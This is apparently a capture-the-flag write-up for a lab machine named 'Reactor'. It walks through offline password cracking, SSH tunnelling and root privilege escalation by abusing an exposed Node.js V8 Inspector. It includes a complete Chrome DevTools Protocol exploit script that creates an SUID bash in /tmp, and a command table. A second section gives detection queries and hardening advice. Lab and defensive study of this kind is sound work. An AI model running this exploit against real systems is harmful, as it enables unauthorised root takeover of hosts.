







# Reactor


```
Target Machine: Reactor
OS: Linux
Difficulty: Easy
```

## Summary of Attack Chain

| Step | User / Access       | Technique Used                        | Result                                                                                                                                                 |
| :--: | :------------------ | :------------------------------------ | :----------------------------------------------------------------------------------------------------------------------------------------------------- |
|   1  | Local / Recon       | **Nmap Port Scan**                    | Performed network scanning to identify exposed services running on the target host.                                                                    |
|   2  | Unauthenticated Web | **Web Enumeration & File Extraction** | Exploited a web misconfiguration / traversal issue to retrieve the `reactor.db` database file.                                                         |
|   3  | Local / Analysis    | **Offline Password Cracking**         | Extracted password hashes from the database and cracked credentials for user `engineer` (`reactor1`).                                                  |
|   4  | engineer            | **SSH Authentication**                | Logged into the target via SSH using the recovered credentials and retrieved **user.txt**.                                                             |
|   5  | engineer            | **Internal Enumeration**              | Identified a **Node.js** V8 Inspector debugging process running as `root` on loopback port `9229`.                                                     |
|   6  | Local / Attacker    | **SSH Port Forwarding**               | Established an SSH tunnel to forward remote port `9229` to the attacker machine.                                                                       |
|   7  | engineer            | **Node.js Inspector RCE**             | Used the Chrome DevTools Protocol (CDP) to evaluate arbitrary JavaScript within the privileged V8 runtime context.                                     |
|   8  | root                | **SUID Binary Execution**             | RCE payload created an SUID bash binary at `/tmp/rootbash`; executed `/tmp/rootbash -p` to obtain an interactive root shell and retrieve **root.txt**. |





# Offensive Operations

## 1. Initial Foothold & Enumeration

An initial comprehensive port scan was conducted using `nmap` to discover active network services running on the **Reactor** machine:

```bash
nmap -sC -sV -p- 10.XXX.XX.XXX

```

### From Web Exploitation to Database Cracking

During the initial web enumeration phase, a vulnerability or misconfiguration was leveraged to discover and extract a database file named `reactor.db` via a web application component or directory traversal.

Upon auditing the database contents, an encrypted password hash associated with the user accounts was recovered. The hash was cracked offline using standard wordlists (e.g., `rockyou.txt`), yielding the cleartext credentials for the system operator:

* **User:** `engineer`
* **Password:** `reactor1`

Using these credentials, an interactive remote session was established over SSH directly to `reactor.htb`:

```bash
ssh engineer@10.XXX.XX.XXX

```

After authenticating successfully, the initial user flag was obtained from the home directory:

```bash
engineer@reactor:~$ cat user.txt
[USER_FLAG_REDACTED]

```




## 2. Privilege Escalation via Node.js Inspector

### Vulnerability Background (Internal Enumeration)

When auditing the internal environment of the **Reactor** machine, running local services can be examined via `ss -lntp` or `netstat -antp`. This system ran a background process exposing port **`9229`** bound exclusively to the loopback interface (`127.0.0.1`), which is the default port for the **Node.js V8 Inspector (Debugging)**.





Alternatively, if a high-privilege interactive Node process is triggered or available to user `engineer`, it can be launched manually into a listening state using the `--inspect-brk` flag. This initializes the V8 Inspector engine and pauses execution at the first line, waiting for an external debugger to hook into it:

```bash
engineer@reactor:~$ node --inspect-brk=0 -e "require('child_process').execSync('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash')"

```


The terminal output confirms that the debugger is actively listening locally on **Reactor**:

```text
Debugger listening on ws://127.0.0.1:42109/[UUID]
For help, see: https://nodejs.org/en/docs/inspector

```




Because the underlying Node.js process runs under root privileges, any client that attaches to this debugging interface can evaluate arbitrary JavaScript to execute system commands with root authority (Remote Code Execution - RCE).

### Setting Up SSH Port Forwarding

Since the debug port only accepts connections originating from localhost on the target machine, an SSH tunnel must be built from the local attack machine (`CayCon`) to forward the remote debug port local to our attacking environment:

```bash
CC@CC:~$ ssh -L 9229:127.0.0.1:9229 engineer@10.XXX.XX.XXX

```



## 3. Exploit Execution & Root Shell

### Automated Script Interaction (`chrome-remote-interface`)

If you prefer an automated approach or need to bypass an environment where the interactive Node CLI client is unavailable, you can write a standalone automation script on your attack machine. This method uses the Chrome DevTools Protocol (CDP) via the `chrome-remote-interface` library to programmatically connect to the forwarded port, inject the payload, and parse the output.

#### 1. Environment Preparation

Before creating the script, initialize a project folder on your local machine (`CayCon`) and install the required library package using `npm`:

```bash
CC@CC:~$ mkdir reactor-exploit && cd reactor-exploit
CC@CC:~/reactor-exploit$ npm install chrome-remote-interface

```

#### 2. Crafting the Automation Script

Create a new file named `privesc.js` using your preferred text editor (e.g., `nano privesc.js`) and paste the following implementation:

```javascript
const CDP = require('chrome-remote-interface');

async function pwn() {
    let client;
    try {
        // Connects to the local port forwarded from the target via SSH tunnel
        client = await CDP({ port: 9229 }); 
        const { Runtime } = client;
  
        // Payload string to be evaluated inside the V8 engine context
        const codeToExecute = `
            (() => {
                try {
                    // Resolve the process global context safely across different Node environments
                    const proc = typeof process !== 'undefined' ? process : global.process;
                    if (!proc) return 'Error: process object is unavailable';
                    
                    // Locate the core module loader and require 'child_process'
                    const req = proc.mainModule ? proc.mainModule.require : module.require;
                    const cp = req('child_process');
                    
                    // Execution Payload: Duplicates bash to /tmp and sets the SUID permission bit
                    cp.execSync('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash');
                    return 'SUID shell created successfully at /tmp/rootbash';
                    
                } catch (err) {
                    return 'Payload Error: ' + err.message;
                }
            })()
        `;

        // Send the payload string to the exposed runtime interpreter
        const response = await Runtime.evaluate({ 
            expression: codeToExecute, 
            returnByValue: true 
        });

        // Error and output handling
        if (response.exceptionDetails) {
            console.error('Debugger Error Exception:', response.exceptionDetails.exception.description);
        } else {
            console.log('\n Remote Execution Result ');
            console.log(response.result.value);
            console.log('--\n');
        }

    } catch (err) {
        console.error('Connection Connection Error:', err.message);
    } finally {
        // Cleanly close the WebSocket connection to the debugger
        if (client) { 
            await client.close(); 
        }
    }
}

pwn();

```

#### 3. Execution and Triggering the Payload

With your SSH port-forwarding tunnel active in another window, fire the script from your local terminal:

```bash
CC@CC:~/reactor-exploit$ node privesc.js

```

Upon a successful handshake and payload parsing, the script will query the target's V8 engine and return the evaluation statement directly to your screen:

```text
 Remote Execution Result 
SUID shell created successfully at /tmp/rootbash
--

```

This confirms that the high-privilege Node process has written an elevated, permanent binary onto the target's filesystem, setting up the final stage of privilege escalation.


## 4. Spawning the Interactive Root Shell

Once the payload executes successfully via the automated script, a persistent SUID binary is generated inside the `/tmp` folder of the **Reactor** machine.

Return to the active SSH shell as `engineer` and execute the binary using the `-p` (preserve privileges) flag. This flag is critical because modern implementations of `bash` drop effective privileges automatically when running from an SUID binary unless explicitly preserved:

```bash
engineer@reactor:~$ /tmp/rootbash -p
rootbash-5.2# whoami
root

```

With complete control of the machine established, the final flag was retrieved from the root directory:

```bash
rootbash-5.2# cat /root/root.txt
[ROOT_FLAG_REDACTED]

```




# Defensive Operations

# Defensive Operations

## Overview

* **1.1 Definition:** A multi-layered attack chain exploiting a web-based data leak to acquire hashed credentials, followed by lateral movement via SSH and privilege escalation abusing a locally exposed, highly privileged Node.js V8 Inspector debugging port.
* **1.2 Impact:** Total administrative (Root) takeover of the target host, allowing for arbitrary code execution, persistence, and complete system control.
* **1.3 The Scenario:** The adversary identifies a web misconfiguration allowing the extraction of a backend SQLite database (`reactor.db`). Upon offline cracking of the embedded hashes, the attacker gains SSH access as the `engineer` user. Post-exploitation enumeration reveals a Node.js process running as `root` with the V8 Inspector debugging port (`9229`) exposed to `localhost`. The attacker establishes an SSH local port forward to access the debugger, utilizing the Chrome DevTools Protocol (CDP) to inject JavaScript that writes a root-owned SUID shell to `/tmp`, securing full system compromise.

## System Architecture

* **2.1 Protocol Environment:** HTTP web service, SQLite database, SSH, Node.js V8 Inspector (WebSocket / Chrome DevTools Protocol), Linux filesystem.
* **2.2 Attack Logic Flow:**

> [Web Misconfiguration/Database Leak] -> [Offline Hash Cracking] -> [SSH Authenticated Access as `engineer`] -> [Local Port Forwarding (9229)] -> [Node.js CDP JavaScript Injection] -> [RCE as `root`] -> [SUID Bash Generation] -> [Interactive Root Shell]

* **2.3 Theoretical Analogy:** The attack sequence relies on the abuse of "developer conveniences" left active in a production environment. The Node.js debugging interface is designed to trust and evaluate arbitrary code by nature. The system administrator assumed that binding this interface strictly to the loopback address (`127.0.0.1`) provided sufficient isolation. However, by compromising a low-privileged local user, the adversary bypasses this network boundary, transforming a diagnostic tool into an administrative backdoor.

## Attack Vector

| Attribute                  | Technical Details                                                                                                                                                                                                                                                                                                                                                                                      |
| :------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `reactor.db` database file, recovered `engineer` credentials, loopback listener on port `9229`, WebSocket / CDP payloads, `/tmp/rootbash` SUID binary.                                                                                                                                                                                                                                                 |
| **Critical Vulnerability** | **Insecure Deployment Practices:** Running a **Node.js** application as `root` while exposing the `--inspect` / `--inspect-brk` debugging interface in production, combined with weak web-tier protections.                                                                                                                                                                                            |
| **Offensive Action**       | 1. Extract exposed database and crack stored password hashes.<br><br>2. Authenticate to the host via SSH.<br><br>3. Forward internal debugger port using SSH tunneling (`-L 9229:127.0.0.1:9229`).<br><br>4. Use the Chrome DevTools Protocol to execute `child_process.execSync()` within the privileged runtime.<br><br>5. Execute the SUID-enabled bash binary with `-p` to obtain root privileges. |


### Prerequisites

* **Access Level:** Unauthenticated HTTP access initially; local user context (`engineer`) for internal enumeration and tunneling.
* **Connectivity:** HTTP (Port 80/443) for initial recon; SSH (Port 22) for interactive access and port forwarding.
* **Target State:** Node.js running under elevated privileges (`root`) with the V8 Inspector active on loopback; a weak password policy allowing offline hash cracking.

## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries abusing local developer interfaces will trigger abnormal process ancestry and internal network bridging. We expect to observe the `node` process acting as a parent to system administration binaries (e.g., `cp`, `chmod`, `bash`) and SSH daemons facilitating prolonged local port forwarding sessions.
* **Behavioral Outliers:**
1. A web application or database file being downloaded in its entirety via unusual web requests.
2. A Node.js runtime environment evaluating `child_process` modules to interact directly with system shells.
3. The creation of highly privileged (SUID) binaries in volatile, world-writable directories like `/tmp`.


* **Toxic Combinations:** A service running as root + an active code-evaluation interface (debugger) + accessible to low-privileged local users + SSH configurations allowing arbitrary TCP forwarding.

## Detection Engineering

* **Telemetry Gap Analysis:**
* Network logs (missing internal loopback traffic inspection).
* Process Creation Logs (Sysmon Event ID 1 / Linux Auditd `EXECVE`) mapped to `node` spawning `sh`, `bash`, `cp`, or `chmod`.
* File Integrity Monitoring (FIM) for the `/tmp` directory (creation of SUID binaries).
* SSH Audit logs detailing port-forwarding channels being opened.


* **Detection-as-Code (KQL):**

```kql
// Detect abnormal child processes spawning from Node.js
DeviceProcessEvents
| where InitiatingProcessFileName == "node"
// Look for system utilities used in payload execution or privilege escalation
| where FileName in ("sh", "bash", "cp", "chmod")
// Filter for suspicious command line arguments
| where ProcessCommandLine has_any ("/tmp/", "+s", "rootbash")
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, AccountName

```

* **Resilience Test:** An adversary could evade command-line monitoring by using native Node.js filesystem modules (e.g., `fs.copyFileSync`, `fs.chmodSync`) instead of spawning `child_process.execSync`.
* **Sub-Rule:** Implement a strict file-monitoring baseline targeting the creation of SUID/SGID binaries anywhere on the filesystem, especially originating from application service accounts, independent of the process command line.

## Toolkit & Implementation

* **Automation:** `Hashcat` / `John the Ripper` (offline password cracking), `ssh` (tunneling), `chrome-remote-interface` via `npm` (programmatic debugging interaction).
* **OPSEC Analysis:** The SSH tunnel blends seamlessly with standard administrative traffic, and the CDP WebSocket interaction occurs over the encrypted tunnel and local loopback, bypassing network-based IDS. However, the execution phase relies on dropping a noisy payload (`/tmp/rootbash`) to the filesystem, which is highly visible to FIM or EDR agents.
* **Post-Exploitation:** The attacker uses the temporary SUID binary to read the target flag, but could easily deploy persistent root SSH keys, create secondary backdoor accounts, or modify system cron jobs before removing the `/tmp/rootbash` artifact to clean up their tracks.

## Defensive Mitigation

* **Technical Hardening:**
* **Application Runtime:** **Never** enable the Node.js V8 Inspector (`--inspect` / `--inspect-brk`) in a production environment.
* **Least Privilege:** Run web services and backend Node.js applications as dedicated, unprivileged service accounts, strictly avoiding `root`.
* **SSH Hardening:** Disable SSH port forwarding (`AllowTcpForwarding no` in `sshd_config`) for non-administrative users unless strictly required by a business use-case.
* **Filesystem Controls:** Mount volatile directories like `/tmp` and `/dev/shm` with the `nosuid` and `noexec` flags in `/etc/fstab` to prevent the execution of dropped binaries.


* **Personnel Focus:** Implement strict DevOps security policies preventing development/diagnostic flags from being committed to production deployment manifests. Enforce strong password complexity rules to mitigate offline dictionary attacks.

## Quick Actions

|  Step  | Objective                     | Technical Command / Logic                                                                                                                                                                                        |
| :----: | :---------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **01** | **Extract Database**          | Retrieve the exposed `reactor.db` database through the identified web vulnerability / directory traversal vector.                                                                                                |
| **02** | **Crack Credentials**         | `hashcat -m [hash_type] hash.txt rockyou.txt` → Recover credentials: `engineer:reactor1`                                                                                                                         |
| **03** | **Establish Tunnel**          | `ssh -L 9229:127.0.0.1:9229 engineer@10.129.5.123`                                                                                                                                                               |
| **04** | **Exploit Node.js Inspector** | Execute local `privEsc.js` using the Chrome DevTools Protocol (`chrome-remote-interface`) to connect to port `9229` and inject: `child_process.execSync('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash')` |
| **05** | **Escalate to Root**          | Execute preserved-privilege shell: `/tmp/rootbash -p`                                                                                                                                                            |
